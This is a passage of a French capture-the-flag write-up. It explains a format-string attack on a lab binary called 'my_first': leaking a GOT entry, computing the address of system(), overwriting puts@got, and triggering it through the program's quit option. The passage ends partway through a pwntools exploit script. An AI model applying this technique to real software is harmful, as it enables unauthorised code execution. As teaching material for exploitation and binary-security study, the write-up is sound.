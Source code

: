 

Ma technique d'attaque était la même que sur le CTF [Moee](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Moee%20de%20VulnHub.md) :

- fuiter l'adresse d'une fonction présente dans la GOT (Global Offset Table) du binaire

- calculer l'adresse de la fonction `system` dans la mémoire du programme en se basant sur la différence d'offset entre `system` et la précédente fonction dans la libc

- écraser l'adresse de la fonction présente dans la GOT pour y mettre l'adresse de `system` à la place

- appeller ladite fonction écrasée qui appelera donc `system`

J'ai opté pour écraser la fonction `puts()` dans le programme car elle est assez similaire à `system()` : elle ne recoit qu'un seul argument qui est une chaine de caractères.

Qui plus est si on choisit l'entrée numéro `4` dans le programme on a ce code :

```c
int32_t quit (void) {
    puts ("\nGoodbye!");
    eax = 0;
    return eax;
}
```

Quand `puts` sera écrasé le programme essayera alors d'exécuter le fichier `Goodbye!` (le retour à la ligne sera ignoré car `system()` passe les commandes à bash).

## Et paraboliques

J'ai choisit de faire tout ça via le framework [pwntools](https://docs.pwntools.com/en/stable/) qui va faire une bonne partie des calculs à ma place :

```python
from pwn import *                                                                                                      
                                                                                                                       
p = process('./my_first', stdin=process.PTY, stdout=process.PTY)                                                       
elf = ELF('./my_first')                                                                                                
                                                                                                                       
# On obtient l'adresse de puts dans la GOT, ce sera notre target                                                       
info("puts@got = %#x", elf.got.puts)                                                                                   
                                                                                                                       
# Cette fonction de callback est passée plus loin à pwntools qui s'en sert                                             
# comme d'une entrée pour calculer la distance à laquelle la chaine de                                                 
# format se trouve sur la stack (offset)                                                                               
def exec_fmt(payload):                                                                                                 
    p.readuntil(b"Selection:")                                                                                         
    p.sendline(b"1")                                                                                                   
    p.readuntil(b"Enter first number:")                                                                                
    p.sendline(b"1")                                                                                                   
    p.readuntil("Enter second number:")                                                                                
```